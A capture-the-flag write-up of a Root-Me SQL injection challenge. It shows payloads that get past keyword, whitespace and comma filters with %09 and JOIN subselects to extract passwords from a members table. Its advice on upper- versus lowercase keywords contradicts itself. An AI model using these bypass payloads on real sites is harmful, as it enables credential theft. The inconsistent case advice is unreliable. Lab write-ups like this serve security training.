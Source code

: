 # SQL Injection - Filter bypass (Hard - 80 pts)

After reviewing the entire website, I found that `id` parameter to show user's information is where we can inject SQL injection.

```
http://challenge01.root-me.org/web-serveur/ch30/?action=membres&id=
```
![image](https://user-images.githubusercontent.com/83667873/151038833-ebcc404a-9e4b-416f-b827-6bc1159b5a6c.png)

***Tip:***

*Why I know that. If you get used to SQL injection, you will be sensitive with where the information are leak.*

But in this challenge, there are a lot of characters and words are filtered. I will list some I met: `or, and, ||, /**/, union, select, join, white space, %0a, %0b, %0c, ',comma(,),...`

But with `select` and `union`, just upercase is filtered, when I change these words to lowercase, we can bypass.

With these information, my idea is use  `UNION` and `SELECT` to leak information from table membres. Table name and columns name is provide, you can view source to see:

![image](https://user-images.githubusercontent.com/83667873/151036192-d74d4ba7-d7f2-48cf-8a7b-cd4383bfbcd7.png)

If don't have above provided information, this challenge will become very difficult because when I test, `information_schema.tables` if filtered so we can't leak table name as well as columns name easily.

Okay, back to challenge, because whitespace and many tab character is filter so I will use %09 to replace for whitespace.

Now, our payload will look like:

```
id=9%09UNION%09SELECT%09pass,1,1,1%09FROM%09membres%09LIMIT%091
```
But the comma (,) character is filtered, so we can use it to select like below payload.

So we must find a way to change this select query to other query which have the same meaning.

After searching, I found solution:

For example, my query is:
```
select 1,2,3;
```
![image](https://user-images.githubusercontent.com/83667873/151038392-2493818d-620f-4fe1-b817-338238991cca.png)

I will rewrite below query use `join`:

```
select * from ((select 1)A join (select 2)B join (select 3)C);
```
![image](https://user-images.githubusercontent.com/83667873/151038432-c4351dfc-8898-4457-bcdf-33d97eaf2400.png)

But there is a small note that with `join` word, the upercase is filtered, but lowercase is not, so in your payload, you must to use `JOIN`.

Final payload:

```
id=9%09UNION%09SELECT%09*%09FROM%09((SELECT%09pass%09FROM%09membres%09LIMIT%091)A%09JOIN%09(SELECT%092)B%09JOIN%09(SELECT%093)C%09JOIN%09(SELECT%093)D)
```
